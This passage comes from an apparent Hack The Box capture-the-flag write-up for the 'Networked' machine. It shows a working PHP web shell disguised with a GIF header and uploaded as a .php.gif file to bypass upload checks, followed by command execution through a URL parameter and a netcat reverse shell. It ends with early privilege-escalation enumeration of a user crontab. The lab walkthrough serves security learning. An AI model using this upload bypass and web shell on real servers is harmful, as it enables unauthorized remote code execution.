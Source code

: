 ```

GIF8
<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
now, we need to give the request a valid extension, like .php.gif, hopefully, if the webserver is misconfigured, we will get remote code execution
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php.gif"
Content-Type: application/x-php

GIF8
<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
And as a result we get the following message:
```
file uploaded, refresh gallery
```
Now, let's go to photos.php, grab the uploaded file name, go to ```http://10.10.10.146/uploads/10_10_14_24.php.gif?b0d=whoami``` and see if we get code execution:
```
GIF8 apache apache
```
Now that we checked that we have RCE, let's trigger a remote shell
```
root@kali:~/Documents/HTB/Boxes/Networked# nc -lvnp 4444                                                                                                                                                                                    
listening on [any] 4444                          
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 56860                                                                                                                                                                                 
bash: no job control in this shell                                                                                    
bash-4.2$
```

## User
Now that we have a foothold on the box we can look around for directories and interesting files.  
if we navigate to /home/guly/ to grab user.txt we have permission denied. However, in the same directory, we can find interesting files as well:  
```
bash-4.2$ ls
check_attack.php  crontab.guly  user.txt
```
crontab.guly contains the following:  
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```